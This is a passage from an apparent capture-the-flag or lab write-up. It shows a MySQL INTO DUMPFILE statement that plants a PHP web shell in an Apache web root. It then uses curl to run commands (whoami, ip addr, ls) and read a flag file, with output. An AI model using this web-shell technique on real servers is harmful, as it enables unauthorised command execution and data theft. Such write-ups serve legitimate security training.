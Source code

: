 By default, the latest version of the apache web server root directory is `/var/www/html`.
The root directory depends on the Apache webserver version. For older versions, it would be `/var/www/`).

We will dump a PHP backdoor into a file (`backdoor.php`), to the web server's root directory.

`SELECT '<?php echo system($_GET["cmd"]); ?>' into DUMPFILE '/var/www/html/webtemp/backdoor.php';`: [✓]
```
Query OK, 1 row affected (0.00 sec)
```

`curl localhost:4321/webtemp/backdoor.php?cmd=pwd` [✓]
```
[*] exec: curl localhost:4321/webtemp/backdoor.php?cmd=pwd

/var/www/html/webtemp ←
```

`curl localhost:4321/webtemp/backdoor.php?cmd=whoami`: [✓]
```
[*] exec: curl localhost:4321/webtemp/backdoor.php?cmd=whoami

www-data ←
```

`curl localhost:4321/webtemp/backdoor.php?cmd=ip+addr`: [✓]
```
[*] exec: curl localhost:4321/webtemp/backdoor.php?cmd=ip+addr

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
324848: eth0@if324849: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:b4:63:03 brd ff:ff:ff:ff:ff:ff
    inet 192.180.99.3/24 brd 192.180.99.255 scope global eth0 ←
       valid_lft forever preferred_lft forever
```

`curl localhost:4321/webtemp/backdoor.php?cmd=ls%20../`: [✓]
```
[*] exec: curl localhost:4321/webtemp/backdoor.php?cmd=ls%20../

FLAG2 ←
index.html
webtemp
```

`curl localhost:4321/webtemp/backdoor.php?cmd=cat%20../FLAG2`: [✓]
```
[*] exec: curl localhost:4321/webtemp/backdoor.php?cmd=cat%20../FLAG2

4c537c0dfd18bafdcd59f53c7015550e ←
```

---
---
